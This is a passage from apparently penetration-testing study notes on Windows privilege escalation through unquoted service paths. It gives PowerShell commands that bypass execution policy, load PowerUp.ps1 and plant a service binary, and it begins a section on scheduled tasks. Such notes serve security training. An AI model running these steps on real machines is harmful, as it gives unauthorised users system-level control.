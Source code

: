 The output of this command only lists services that are potentially vulnerable to our attack vector, such as GammaService.



check if we can start and stop the identified service as _steve_ with **Start-Service** and **Stop-Service**.

```powershell
PS C:\Users\steve> Start-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...

PS C:\Users\steve> Stop-Service GammaService
```

Next, let's list the paths Windows uses to attempt locating the executable file of the service.

```
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

Deliver your binary to one of this paths and restart the service



#### Using [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

```powershell
PS C:\Users\dave> powershell -ep bypass
...

PS C:\Users\dave> . .\PowerUp.ps1

PS C:\Users\dave> Get-UnquotedService
```

```powershell
PS C:\Users\steve> Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```

```powershell
PS C:\Users\steve> Restart-Service GammaService
```



### Scheduled Tasks

Show scheduled tasks:

```powershell
PS C:\Users\steve> schtasks /query /fo LIST /v
```

Check permissions on file from scheduled task:
